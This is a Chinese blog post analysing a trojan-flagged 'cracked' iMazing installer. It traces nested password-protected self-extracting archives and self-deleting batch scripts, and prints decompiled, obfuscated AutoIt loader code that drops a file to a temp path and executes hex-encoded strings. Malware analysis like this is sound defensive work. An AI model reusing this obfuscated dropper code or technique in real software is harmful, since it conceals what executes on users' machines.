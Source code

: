 ```yaml
---
title: 分析iMazing_TNTCracked
description: 分析iMazing_TNTCracked
date: 2021-09-27 13:56:01+0800
categories:
    - Analyze
tags:
    - Analyze
    - Virus
    - Windows
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/分析imazing_tntcracked/)

## 缘起

想找个爱思助手的备份，找上了iMazing，兴起找到了TNT破解版的iMazing，从[此链接](https://www.tntmac.com/tag/imazing-for-mac-crack/)下载适用于Windows的iMazing后却发现被Windows11自带的杀毒软件报毒，于是起了想分析这个破解版的兴趣

## 分析

### 1、概览

![解压](https://i.loli.net/2021/10/11/o4TszgPHIcYji2G.png)

- 如图所示，解压后是一个官方安装包以及一个`Create__Fix.exe`，正是这个文件被报毒，以此展开调查

### 2、Create__Fix.exe

![压缩包](https://i.loli.net/2021/10/11/LXSnr6B7TtgvuRK.png)

- 拖入DIE，看到这个文件似乎是个压缩包，将它解压，内容如图所示

![又一个压缩包](https://i.loli.net/2021/10/11/lfKRim4QrjzaUYP.png)

- 其中有一个`Fix.exe`以及一个`iMazing_fix.bat`，但是这个bat打开是乱码，使用C32Asm来看一下十六进制格式内容，如图所示

![清楚了](https://i.loli.net/2021/10/11/cxYuqhaTLU9vElP.png)

- 这不是看的很清楚嘛，这个`iMazing_fix.bat`的运行流程如下
  - 第一步，运行`Fix.exe`，参数是`pt147147`和`-d%dir%`，这个写法让我感觉这是个压缩文件了，貌似还真是
  - 第二步，等待一秒
  - 第三步，删除`Fix.exe`和`iMazing_fix.bat`
- 我不禁好奇，是什么原因让它向千层饼看齐，一层又一层没完没了
- 如图所示，不出意料它又是一个RAR压缩文件

![不是吧又来](https://i.loli.net/2021/10/11/F9l2jZUYENfCuHz.png)

### 3、Fix.exe

- 解压缩，需要密码，我猜密码是`t147147`，哦猜对了，TNT团队并没有定制自己的解压工具，用WinRAR的sfx自解压模块传参解压，解压后如图所示

![又一个解压](https://i.loli.net/2021/10/11/lm6yzf5asNHcRbS.png)

- 解压后的文件分为三个，bat脚本依旧是被加密的状态，再次使用十六进制编辑器阅读它
- 经过DIE分析，`data.bin`是个可执行程序，将它重命名为`data.exe`
- 经过DIE分析，`v1`是个二进制文件，暂时无法识别

### 4、Created_By_TNT_Team.bat

![Created_By_TNT_Team.bat](https://i.loli.net/2021/10/11/GmCj7cvfk8N62WB.png)

- 如图所示，这个脚本文件做的操作是以下几步
  - 第一步，清理屏幕
  - 第二步，关闭回显
  - 第三步，运行`data.bin`这个可执行程序，参数是`v1`
  - 第四步，删除`v1`、`data.bin`、`Created_By_TNT_Team.bat`

### 4、data.exe和v1

- 这个`data.exe`重命名后就十分明了，它是AutoIt3的脚本运行器，那么`v1`不出所料就是一个AutoIt3的脚本，后缀应该是`a3x`
- `v1`是编译完成的au3脚本，我在GitHub上找到了一些反编译器，例如[UnAutoIt](https://github.com/x0r19x91/UnAutoIt)
- 如图所示，解压完毕，从v1中释放出来一个`iMazing.exe`以及一个脚本，此脚本混淆极其严重，几乎无法阅读
- 被修改后的`iMazing.exe`还附带原始的数字签名，尽管它已经失效，看起来它将会本地修改`iMazing.exe`，应该算是一个文件补丁，但是看起来哈希没什么变化...

![extra](https://i.loli.net/2021/10/11/9yFOsWujGwPJmQ6.png)

> 以下是反编译出来的一些有用的代码

```AutoIt3
Func a2f00001b21_()
    For $ax0x0xa = 0x1 To 0x5
        Local $a2f00001b21sz_ = a2f00001b21x_()
        FileInstall("d3c0ef51c80f467bc9002bbf93fcb10d0c917dbaae819ccd925e2f8902d3c9c5229702964c538605098cce34d2e9cc90ce0618992ba26caea18b5b5ccd9dd0acf02370c4bc004868283b8067c8309862" & _
            "cf2f70d92252928d02af9b1c7d80c3303522b08f2", $a2f00001b21sz_, 0x1)
        Global $a2f00001b21, $os = Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
            "3533333337333433373332333633393336343533363337333533333337333033363433333633393337333433323338333433363336333933363433333633353335333233363335333633313336333433" & _
            "3233383332333433343331333333323334333633333330333333303333333033333330333333313334333233333332333333313337333333373431333534363332333933323433333233373337343333" & _
            "33333333333338333333373334333933323337333234333333333133323339323732393239272929"))
        If IsArray($os) And $os[0x0] >= 0x46da Then ExitLoop
        Sleep(0xa)
    Next
    Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
        "3333313332343233343336333633393336343333363335333433343336333533363433333633353337333433363335333233383332333433343331333333323334333633333330333333303333333033" & _
        "3333303333333133343332333333323333333133373333333734313335343633323339323732393239272929"))
EndFunc    ; -> a2f00001b21_

Func a2f00001b21x_()
    Local $a2f00001b21s1_ = a2f00001b21("4054656D70446972"), $a2f00001b21s3_ = a2f00001b21("31"), $a2f00001b21s4_ = a2f00001b21("5c"), $a2f00001b21s5_ = a2f00001b21("5c"), $a2f00001b21s6_ = a2f00001b21("37"), $a2f00001b21s8_ = a2f00001b21("3937"), $a2f00001b21s9_ = a2f00001b21("313232"), $a2f00001b21s7_ = a2f00001b21("31"), $a2f00001b21sa_
    Local $a2f00001b21s2_ = Execute($a2f00001b21s1_)
    If StringRight($a2f00001b21s2_, Number($a2f00001b21s3_)) <> $a2f00001b21s4_ Then $a2f00001b21s2_ = $a2f00001b21s2_ & $a2f00001b21s5_
    SRandom(Number(StringRight(TimerInit(), 0x4)))
    Do
        $a2f00001b21sa_ = ''
        While StringLen($a2f00001b21sa_) < Number($a2f00001b21s6_)
            $a2f00001b21sa_ = $a2f00001b21sa_ & Chr(Random(Number($a2f00001b21s8_), Number($a2f00001b21s9_), Number($a2f00001b21s7_)))
        WEnd
        $a2f00001b21sa_ = $a2f00001b21s2_ & $a2f00001b21sa_
    Until Not FileExists($a2f00001b21sa_)
    Return ($a2f00001b21sa_)
EndFunc    ; -> a2f00001b21x_

Func a2f00001b21($a2f00001b21)
    Local $a2f00001b21_
    For $x = 0x1 To StringLen($a2f00001b21) Step 0x2
        $a2f00001b21_ &= Chr(Dec(StringMid($a2f00001b21, $x, 0x2)))
    Next
    Return $a2f00001b21_
EndFunc    ; -> a2f00001b21
```

## 结论

- 它应该什么都没干仅仅只是释放了一个可执行文件，但是这个释放方式实在是令人奇怪
- 它最后释放的`iMazing.exe`是并未破解的版本，事情更加奇怪了
